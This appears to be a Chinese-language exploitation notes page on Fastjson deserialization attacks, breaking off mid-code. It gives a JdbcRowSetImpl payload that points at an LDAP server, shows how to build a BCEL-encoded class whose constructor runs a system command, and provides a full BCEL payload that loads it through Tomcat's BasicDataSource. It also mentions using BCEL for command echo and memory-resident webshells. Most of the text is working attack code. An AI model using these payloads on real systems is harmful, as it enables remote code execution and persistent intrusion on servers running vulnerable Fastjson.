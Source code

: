 ```java
  "@type":"com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName":"ldap://10.30.1.214:1389/my9azs",
  "autoCommit":true
} 
```
## BCEL
BCEL分析:[https://www.freebuf.com/vuls/360993.html](https://www.freebuf.com/vuls/360993.html)
BCEL Classloader在 JDK < 8u251之前是在rt.jar里面。且在Tomcat7和Tomcat8下的利用类不同。
tomcat7:
org.apache.tomcat.dbcp.dbcp.BasicDataSource
tomcat8及其以后:
org.apache.tomcat.dbcp.dbcp2.BasicDataSource
引入tomcat-dhcp依赖；
pom.xml:
```java
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>8.5.42</version>
</dependency>
```
生成BCEL形式字符：
```java
Path path = Paths.get("E:/TestRef.class");
byte[] bytes = Files.readAllBytes(path);
String result = Utility.encode(bytes,true);//生成becl形式的编码
System.out.println("$$BCEL$$" + result);
```
TestRef.class:
```java
public class TestRef {
    public TestRef() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```
```java
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$CA$Q$ac$86$85$85uQ$k$e2$fb$RO$82$H$b9x$c3$Y$T$a3$89$c9F$M$Q$3c$_$e3$88C$60$d7$ec$ce$g$7e$cb$8b$g$P$7e$80$le$ecA$82$qNg$a6R$d5$d5$dd3$f3$f5$fd$f1$J$e0$E$fb$O$b2$u$3b$a8$605$87$aa$c15$h$eb66$I$d9S$V$u$7dFH$d7$ea$3d$82u$R$deK$c2$8a$a7$Cy$93$8c$fb2$ea$fa$fd$R$xe$_$U$fe$a8$e7G$ca$f0$99h$e9G$V$T$f2$5eW$c6$ba$z$l$9a$E$e7r$o$e4$93Va$Q$db$d8d$de$J$93H$c8$xe$fc$ee$ccw$3c$f4$9f$7d$X6r6$b6$5clc$87$7bq$7b$e1b$X$7b$E$7b$e6$p$U$8d$b31$f2$83A$a3$d5$lJ$a1$J$95$a9$a4$c2$c6uk$3e$8bP$fa3$b6$93$40$ab1$8fs$GR$cfI$b5V$f7$fey$f8$c2$96$9cHA8$ac$zd$3b$3aR$c1$a0$b9Xp$h$85B$c6q$T$H$c8$f0g$9aE$i$fc$E$a4$90gv$ceH$8c$cbGo$a0w$a4$ca$e9WXw$_$ac$a4$e0$Y$ji$3e$z$8e$M$K$dca$89$99$fb$5b$c1X$98$a2$c9$f3$e7$f3$$N$ebJ$3f$83$94$e8$8d$c2$B$A$A"
        }
    }: "x"
}
```
BCEL的另一个好处在于针对不出网的情况下实现命令执行回显或打内存马,所用方式较广。
SpringEcho.java: 命令执行回显
```java
public class SpringEcho {
    public SpringEcho() {
    }

    static {
```